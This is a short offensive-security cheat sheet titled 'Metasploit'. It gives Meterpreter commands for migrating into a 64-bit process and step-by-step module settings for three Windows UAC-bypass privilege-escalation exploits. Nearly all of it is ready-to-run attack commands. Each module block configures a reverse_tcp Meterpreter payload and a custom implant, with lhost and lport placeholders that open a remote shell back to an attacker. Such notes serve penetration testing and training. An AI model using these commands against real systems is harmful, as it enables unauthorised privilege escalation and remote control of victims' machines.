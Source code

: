 # Metasploit

Migrate to a 64-bit process ID architecture in order to perform privilege escalation

```
meterpreter > migrate <pid>

meterpreter > migrate -N <process_name>.exe

meterpreter > background
```

There are two MSF modules for **BypassUAC**

This uses a payload as a dropper (this will touch the disk).

```
msf exploit(multi/handler) > use exploit/windows/local/bypassuac

msf exploit(windows/local/bypassuac) > set payload /windows/x64/meterpreter/reverse_tcp

msf exploit(windows/local/bypassuac) > set target Windows x64

msf exploit(windows/local/bypassuac) > set exe::custom /path/to/local/custom_implant.exe

msf exploit(windows/local/bypassuac) > run lhost=<IP> lport=<PORT> session=<session_ID>
```

This will execute it through memory

```
msf exploit(multi/handler) > use exploit/windows/local/bypassuac_injection

msf exploit(windows/local/bypassuac_injection) > set payload /windows/x64/meterpreter/reverse_tcp

msf exploit(windows/local/bypassuac_injection) > set target Windows x64

msf exploit(windows/local/bypassuac_injection) > set exe::custom /path/to/local/custom_implant.exe

msf exploit(windows/local/bypassuac_injection) > run lhost=<IP> lport=<PORT> session=<session_ID>
```

Performing Privilege escalation that abuses WinSXS

```
msf exploit(multi/handler) > use exploit/windows/local/bypassuac_injection_winsxs

msf exploit(windows/local/bypassuac_injection_winsxs) > set payload /windows/x64/meterpreter/reverse_tcp

msf exploit(windows/local/bypassuac_injection_winsxs) > set target Windows x64

msf exploit(windows/local/bypassuac_injection_winsxs) > set exe::custom /path/to/local/custom_implant.exe

msf exploit(windows/local/bypassuac_injection_winsxs) > run lhost=<IP> lport=<PORT> session=<session_ID>
```